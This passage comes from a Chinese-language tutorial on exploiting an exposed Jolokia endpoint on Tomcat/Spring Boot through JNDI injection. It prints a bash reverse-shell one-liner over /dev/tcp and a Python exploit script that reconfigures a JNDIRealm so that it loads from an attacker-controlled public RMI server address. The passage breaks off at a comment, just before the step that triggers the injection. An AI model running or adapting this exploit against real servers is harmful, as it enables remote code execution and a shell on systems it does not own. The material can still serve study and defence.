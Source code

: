 指定的命令是：`reverseShellCommand`

为：

```java
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1				// 即反弹shell
```







### 2. 小结1

总的来说就是:

1. 相当于开启了一个rmi服务器，然后地址就是 我们输入的IP ，以及指定的端口：ip:端口   



2. 然后又指定了一个监听端口，用于下面的反弹shell 所以我们需要监听该端口，来接收反弹回来的shell



然后目前我们是在我们自己的服务器上搭建好了，但是目标还不知道我们的rmi服务器的地址，以及使用的方法

所以我们需要向目标发送我们的服务器地址以及我们使用的方法（即，我们需要执行的exp）





### 3. exp

```python
mport requests as req
import sys
from pprint import pprint

url = sys.argv[1] + "/jolokia/" // url：即指定目标
pprint(url)
#创建JNDIRealm // JNDIRealm：访问保存在 LDAP 目录服务器中的验证信息。 简单的来说就是对tomcat进行配置
create_JNDIrealm = {
"mbean": "Tomcat:type=MBeanFactory",
"type": "EXEC",
"operation": "createJNDIRealm",
"arguments": ["Tomcat:type=Engine"]
}
#写入contextFactory
set_contextFactory = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "WRITE",
"attribute": "contextFactory",
"value": "com.sun.jndi.rmi.registry.RegistryContextFactory" //提供注册表的创建以及查找和命名远程对象的类、接口和异常 为了写入我们配置的rmi服务器以及
}
#写入connectionURL为自己公网RMI service地址
set_connectionURL = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "WRITE",
"attribute": "connectionURL",
"value": "rmi://118.31.228.80:2020/ExecByEL" //此时的地址为我们之前在java代码中设置的目标，以及端口，然后调用方法
}
#停止Realm
stop_JNDIrealm = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "EXEC",
"operation": "stop",
"arguments": []
}
#运行Realm，触发JNDI 注入
```
